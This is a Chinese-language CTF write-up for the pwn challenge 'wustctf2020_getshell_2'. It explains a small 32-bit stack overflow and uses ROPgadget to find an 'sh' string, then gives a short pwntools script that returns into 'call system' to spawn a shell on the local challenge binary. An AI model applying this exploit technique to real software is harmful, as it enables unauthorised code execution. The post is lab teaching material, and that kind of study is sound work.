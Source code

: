 ```yaml
---
title: 'wustctf2020_getshell_2'
date: 2024-01-06 13:00:00 +0800
categories: [ROPgadgets,asm]
tags: [ctf,pwn]
---
```

![image-20240106214446580](../assets/img/old_imgs/image-20240106214446580.png)

![image-20240106214457268](../assets/img/old_imgs/image-20240106214457268.png)

![image-20240106214720283](../assets/img/old_imgs/image-20240106214720283.png)

> `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.
